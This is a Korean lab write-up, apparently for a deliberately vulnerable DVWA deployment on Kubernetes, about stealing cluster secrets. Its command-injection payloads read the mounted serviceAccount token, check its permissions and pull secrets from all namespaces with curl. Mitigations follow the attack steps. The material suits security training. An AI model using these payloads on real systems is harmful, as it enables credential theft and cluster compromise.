


# 공격 시나리오
* serviceAccount 토큰을 사용하여 쿠버네티스 secret을 탈취


# 공격 방법
1. serviceAccount token 확인

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/token
```


2. pod(정확한 표현은 serviceAccount)의 namespace 확인

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/namespace
```



3. serviceAcount token 권한 확인

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -X POST -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" -d '{"apiVersion":"authorization.k8s.io/v1","kind":"SelfSubjectRulesReview","spec":{"namespace":"dvwa"}}' https://kubernetes.default.svc.cluster.local/apis/authorization.k8s.io/v1/selfsubjectrulesreviews; }
```



4. 모든 namespace의 secrets 탈취

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://kubernetes.default.svc.cluster.local/api/v1/secrets; }
```


# 보안조치
* [role](./manifests/dvwa_webapp/clusterrole.yaml)에서 필요한 권한(최소권한)만 설정
* [clusterrole binding](./manifests/dvwa_webapp/clusterrolebinding.yaml)를 rolebinding으로 변경 -> 다른 namespace 접근 불가
* token이 불필요하면 automountServiceAccountToken을 false로 설정
* secret 데이터는 암호화해서 저장(써드파티 사용, 예: vault)

# 참고자료
* https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/abusing-roles-clusterroles-in-kubernetes
